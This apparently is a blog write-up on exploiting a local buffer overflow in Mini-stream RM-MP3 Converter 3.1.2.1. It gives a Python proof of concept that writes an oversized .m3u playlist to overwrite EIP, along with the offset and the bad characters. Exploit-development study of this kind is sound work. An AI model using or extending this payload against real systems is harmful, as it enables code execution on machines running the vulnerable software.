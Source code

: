 ```yaml
---
layout:     post
title:      Mini-stream RM-MP3 Converter 3.1.2.1.2010.03.30 - Local Buffer Overflow
author:     wooy0ung
tags:       bof
category:   exploit
---
```


- INDEX
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 sp0  
>host machine: Windows 10  
>vulnerability application: Mini-stream RM-MP3 Converter 3.1.2.1  



## 0x001 Test POC

Execute the POC, EIP would be overwrite by 0x42424242.
```
#!/usr/bin/python
import sys, struct

file="crash.m3u"
 
#---------------------------------------------------------------------#
# Badchars: '\x00\x09\x0A'                                            #
#---------------------------------------------------------------------#
crash = "http://." + "A"*17416 + "B"*4 + "C"*7572

writeFile = open (file, "w")
writeFile.write( crash )
writeFile.close()
```
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x001.png)
